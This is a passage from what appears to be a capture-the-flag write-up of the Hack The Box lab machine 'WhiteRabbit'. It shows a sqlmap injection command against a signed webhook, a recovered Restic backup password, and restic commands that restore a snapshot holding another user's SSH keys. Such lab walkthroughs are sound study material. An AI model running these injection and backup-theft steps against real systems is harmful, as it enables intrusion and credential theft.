 Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*47ogM1D2SWCLXXZHRdSQuA.png)

Screenshot 6: CyberChef with the secret key and payload, showing the generated HMAC signature.

Manually generating signatures for each `sqlmap` request would be very slow. This was a good opportunity for a custom solution. I decided to create a Burp Suite extension to automatically add the `x-gophish-signature` header with the correct HMAC signature. This was a custom Python script loaded directly into Burp.

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*YtdHkIwZINLqpOtBMgFpRg.png)

Screenshot 7: Burp Suite Extender tab showing the HMAC Header extension loaded.

With the Burp extension active, I attempted to use `sqlmap` to automate the data dumping.

sqlmap -u http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfdld --method POST --data '{"campaign_id":2,"email":"test@mail.com", "message": "Clicked Linka"}' -p email -D temp -T command_log --proxy http://127.0.0.1:8080 --flush

During this phase, I encountered a minor issue, my VM became unstable due to overload. So I tried configuring my VM with increased resources and that resulted in:

Phase 3: Restic Repository Access
=================================

From the `sqlmap` output, I obtained two critical pieces of information:

-   Restic repository URL: `[http://75951e6ff.whiterabbit.htb](http://75951e6ff.whiterabbit.htb/)`
-   Restic password: `ygcsvCuMdfZ89yaRLLTKhe5jAmth7vxw`

This was a significant lead, as Restic is a backup program, and gaining access to its repository could mean finding sensitive files.

Accessing and Restoring Restic Backups
======================================

First, I set environment variables for `restic` to simplify commands:

export RESTIC_PASSWORD=ygcsvCuMdfZ89yaRLLTKhe5jAmth7vxw\
export RESTIC_REPOSITORY=rest:http://75951e6ff.whiterabbit.htb

Then, I listed the available snapshots:

restic snapshots

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*muif2FtCzFD5eBXpaWnm5w.png)

Screenshot 8: Terminal showing restic snapshots output.

This showed a snapshot with ID `272cacd5` containing `/dev/shm/bob/ssh`. This path immediately suggested the presence of SSH keys. I proceeded to restore this snapshot to my local machine:

mkdir -p /tmp/restored_files/\
restic restore 272cacd5 --target /tmp/restored_files/
